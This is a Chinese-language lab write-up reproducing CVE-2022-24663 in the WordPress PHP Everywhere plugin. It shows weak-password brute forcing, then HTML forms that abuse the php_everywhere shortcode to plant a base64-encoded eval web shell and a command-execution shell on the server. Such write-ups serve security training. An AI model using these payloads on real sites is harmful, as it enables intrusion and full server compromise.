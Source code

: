 ```yaml
---
title: CVE-2022-24663【RCE】
author: Ghost
date: 2023-12-10
categories:
  - ['春秋云境', '漏洞靶标']
  - 漏洞复现
tags:
  - 'RCE'
---
```


## 1. 漏洞介绍  

远程代码执行漏洞，任何订阅者都可以利用该漏洞发送带有“短代码”参数设置为 PHP Everywhere 的请求，并在站点上执行任意 PHP 代码。P.S. 存在常见用户名低权限用户弱口令

- `WordPress是Wordpress`基金会的一套使用[**php**](https://it.cha138.com/php/)语言开发的博客平台。该平台支持在PHP和[**mysql**](https://it.cha138.com/mysql/)的服务器上架设个人博客网站。

- `WordPress plugin`是WordPress开源的一个应用插件。

- `WordPress plugin PHP Everywhere` 存在代码注入漏洞，

- `PHP Everywhere<= 2.0.3`包含了允许通过`WordPress短代码`执行PHP代码片段的功能，任何经过身份验证的用户都可以使用。

## 2. 影响版本

该漏洞源于`PHP Everywhere 2.0.3及以下版本`存在多个远程代码执行漏洞。

## 3. 漏洞复现

漏洞的复现和 CVE-2022-26965 有点相似，都是利用服务端会执行 PHP 代码，为此既可以写个木马通过蚁剑连接获取 flag ，也可以写个远程执行命令的 PHP 文件。

首先，由于提示存在弱口令，故用 burp suite 抓包爆破得登录账号密码为 **test/test** 。

### 3.1. 写马

```php
<?php @eval($_POST["shell"]) ?>
/*base64 编码后*/
PD9waHAgQGV2YWwoJF9QT1NUWyJzaGVsbCJdKSA/Pg==
```

- 登录 wordpress 后将下面代码插入任意页面，并点击 **Execute** 即可。

```html
<form action="http://eci-2z9se9cvra1hc6r9iirp.cloudeci1.ichunqiu.com/wp-admin/admin-ajax.php" method="post">
      <input name="action" value="parse-media-shortcode" />
      <textarea name="shortcode">[php_everywhere] <?php file_put_contents("/var/www/html/shell.php",base64_decode("PD9waHAgQGV2YWwoJF9QT1NUWyJzaGVsbCJdKSA/Pg==")); ?>[/php_everywhere]</textarea>
      <input type="submit" value="Execute" />
</form>
```

- 注意要将 URL 换成自己开启环境的

- 示例：

![CVE-2022-24663-picture-1.jpg](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/CVE-2022-24663-picture-1.jpg)

![CVE-2022-24663-picture-2.jpg](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/CVE-2022-24663-picture-2.jpg)

![CVE-2022-24663-picture-3.jpg](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/CVE-2022-24663-picture-3.jpg)

![CVE-2022-24663-picture-4.jpg](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/CVE-2022-24663-picture-4.jpg)

![CVE-2022-24663-picture-5.jpg](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/CVE-2022-24663-picture-5.jpg)

### 3.2. RCE

```php
<?php system($_GET[cmd]);?>
PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOz8+
```

```html
<form action="http://eci-2z9se9cvra1hc6r9iirp.cloudeci1.ichunqiu.com/wp-admin/admin-ajax.php" method="post">
      <input name="action" value="parse-media-shortcode" />
      <textarea name="shortcode">[php_everywhere] <?php file_put_contents("/var/www/html/cmd.php",base64_decode("PD9waHAgc3lzdGVtKCRfR0VUW2NtZF0pOz8+")); ?>[/php_everywhere]</textarea>
      <input type="submit" value="Execute" />
</form>
```

操作基本同上，最后获取 flag 示例如下：

![CVE-2022-24663-picture-6.jpg](https://fastly.jsdelivr.net/gh/z9m8r8/PicGo-Notes-Pu/CVE-2022-24663-picture-6.jpg)
